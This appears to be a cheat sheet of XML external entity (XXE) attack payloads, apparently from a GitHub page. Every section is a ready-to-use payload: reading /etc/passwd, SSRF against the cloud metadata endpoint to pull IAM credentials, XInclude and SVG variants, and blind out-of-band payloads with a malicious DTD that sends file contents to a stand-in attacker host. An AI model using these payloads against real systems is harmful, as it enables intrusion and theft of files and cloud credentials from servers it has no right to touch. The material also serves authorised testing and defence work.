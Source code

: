 ### XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

### XXE to perform SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
### XXE using XInclude to retrieve files

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE trough SVG

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE via modified content type

Original:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Modified:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

### Blind XXE via Out-of-Band network

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

### Blind XXE with out-of-band interaction via XML parameter entities

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```

### Blind XXE using malicious external DTD

Malicious DTD:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate; 
```

Trigger vulnerability:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]> 
```

### Blind XXE to retrieve data via error messages

Malicious DTD:

```
<!ENTITY % x SYSTEM "file:///etc/passwd">
<!ENTITY % y "<!ENTITY &#x25; z SYSTEM 'file:///nonexistent/%x;'>">

%y;
%z;
```

Trigger vulnerability:

```
<!DOCTYPE hh [ <!ENTITY % e SYSTEM "https://web-attacker.com/exploit.dtd"> %e;]>
```
